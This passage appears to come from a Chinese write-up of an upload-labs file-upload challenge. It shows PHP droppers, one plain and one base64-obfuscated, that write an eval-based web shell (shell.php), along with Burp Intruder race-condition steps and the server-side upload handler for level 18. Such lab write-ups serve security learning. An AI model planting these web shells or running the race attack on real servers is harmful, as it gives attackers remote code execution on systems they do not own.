 <?php fputs(fopen('shell.php', 'w'), '<?php @eval($_POST["a"]);?>'); ?>

<?php
$a='PD9waHAgQGV2YWwoJF9QT1NUWyJhIl0pOz8+';
$myfile=fopen("shell.php","w");
 fwrite($myfile,base64_decode($a));
 fclose($myfile);
?> 

上传1.txt，抓包发送到intruder模块，同时访问靶场IP/uploads/1.php，同样抓包，发送到intruder模块

设置null payload，无限发送，二者同时开始攻击，等到服务器中成功出现shell.php则说明竞争成功，直接访问shell.php即可

# less-18

## 代码分析

//index.php
$is_upload = false;
$msg = null;
if (isset($_POST['submit']))
{
    require_once("./myupload.php");
    $imgFileName =time();
    $u = new MyUpload($_FILES['upload_file']['name'], $_FILES['upload_file']['tmp_name'], $_FILES['upload_file']['size'],$imgFileName);
    $status_code = $u->upload(UPLOAD_PATH);
    switch ($status_code) {
        case 1:
            $is_upload = true;
            $img_path = $u->cls_upload_dir . $u->cls_file_rename_to;
            break;
        case 2:
            $msg = '文件已经被上传，但没有重命名。';
            break; 
        case -1:
            $msg = '这个文件不能上传到服务器的临时文件存储目录。';
            break; 
        case -2:
            $msg = '上传失败，上传目录不可写。';
            break; 
        case -3:
            $msg = '上传失败，无法上传该类型文件。';
            break; 
        case -4:
            $msg = '上传失败，上传的文件过大。';
            break; 
        case -5:
            $msg = '上传失败，服务器已经存在相同名称文件。';
            break; 
        case -6:
            $msg = '文件无法上传，文件不能复制到目标目录。';
            break;      
        default:
            $msg = '未知错误！';
            break;
    }
}
